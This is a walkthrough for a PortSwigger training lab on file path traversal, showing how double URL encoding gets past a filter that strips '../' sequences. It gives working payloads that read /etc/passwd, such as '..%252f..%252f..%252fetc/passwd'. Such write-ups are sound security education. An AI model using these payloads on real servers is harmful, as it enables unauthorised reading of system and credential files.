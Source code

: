 # File path traversal, traversal sequences stripped with superfluous URL-decode

**Lab Url**: [https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

![Lab Description](img/lab-description.png)

## Goal

This lab demonstrates a path traversal vulnerability. The application blocks input containing path traversal sequences but performs URL decoding on the input before using it. The goal is to retrieve the contents of `/etc/passwd`.

## Information

**URL encoding** is a method to encode data in a Uniform Resource Identifier (URI) using US-ASCII characters. It ensures that special characters, reserved symbols, and non-ASCII characters in a URL are correctly interpreted by web browsers and servers. URL encoding replaces unsafe characters with a "%" followed by their hexadecimal ASCII value, preventing parsing conflicts and ensuring data integrity. This is essential for handling spaces (`%20`), query parameters (`&` and `=`), and characters with special meanings in URLs.

You can find more information [here](https://en.wikipedia.org/wiki/Percent-encoding).

## Conclusion

Solutions from previous labs won't work here because, as stated in the lab description, the application first strips path traversal sequences and then decodes the input. Simply URL encoding the payload is also ineffective, as one level of URL decoding is usually done by the server upon receiving the request. Therefore, encoding `../` as `%2e%2e%2f` is insufficient. The server decodes the URL and passes `../` to the application, which filters it out.

To bypass this, we can URL-encode the encoded string again.

```bash
../ --> ..%2F --> ..%252F
```

OR

```bash
../../../ --> %2e%2e%2f%2e%2e%2f%2e%2e%2f --> %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66
```

## Payload

```bash
/image?filename=%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
```

```bash
/image?filename=..%252f..%252f..%252fetc/passwd
```

![Retrived Content](img/retrived-content.png)

![Lab Solved](img/lab-solved.png)
